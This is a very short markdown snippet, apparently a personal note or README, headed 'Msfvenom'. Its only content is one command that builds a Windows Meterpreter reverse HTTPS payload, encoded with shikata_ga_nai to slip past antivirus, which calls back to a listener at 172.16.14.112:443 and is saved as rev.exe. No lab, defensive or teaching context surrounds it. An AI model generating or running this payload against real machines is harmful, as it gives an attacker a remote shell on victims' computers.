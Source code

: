 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/x64/meterpreter_reverse_https LHOST=172.16.14.112 LPORT=443 -e x86/shikata_ga_nai -f exe -o rev.exe
